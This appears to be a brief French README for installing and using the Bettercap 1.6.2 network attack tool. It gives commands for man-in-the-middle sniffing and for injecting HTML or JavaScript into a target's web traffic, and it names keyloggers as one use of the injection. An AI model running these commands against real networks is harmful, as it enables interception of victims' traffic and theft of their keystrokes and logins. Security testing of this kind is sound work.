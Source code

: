 # :heavy_check_mark: Bettercap 1.6.2

Dépendances à satisfaire => <b> apt-get install ruby ruby-colorize ruby-em-proxy ruby-net-dns ruby-network-interface ruby-packetfu ruby-packetfu </b> </p>

:heavy_check_mark: install => <b>dpkg -i bettercap_1.6.2-0parrot1_all.deb</b> </p>
Bettercap 1.6.2 est une ancienne version de Bettercap, la 1.6.2 est plus simple. </p> Or à chaque "<b>apt-get update</b>" le paquet se mettera à jour, mais nous ne voulons pas cela donc pour empêcher la MAJ du paquet on lance la commande suivante : <b>sudo apt-mark hold bettercap</b> </p>
:heavy_check_mark: Pour sniffer un réseau (MITM): bettercap -X </p>
Pour de l'aide : <b>Bettercap -h </b></p>

Qu'est-ce que l'<b>injection</b> ? 
L'injection permet de placer un morceau de code non voulus par la/les victime(s), exemple : injecter du html pour afficher un image à chaque page chargé par la victime,</p> ou encore du javaScript pour injecter des keyloggers. </p>Avec JavaScript les possibilitées d'attaques sont énormes. 
:heavy_check_mark: Pour faire de l'injection (c'est le meilleur): <b>bettercap -I (INTERFACE ex:wlan0) -T (TARGET_IP) --proxy-https --httpd --proxy-module injecthtml --html-file xxxxx.html</b>  </p>

L'utilisation de <b>Caplets</b> rend bettercap puissant. </p>


Pourplus de détails voir le site officiel : https://www.bettercap.org/  </p>

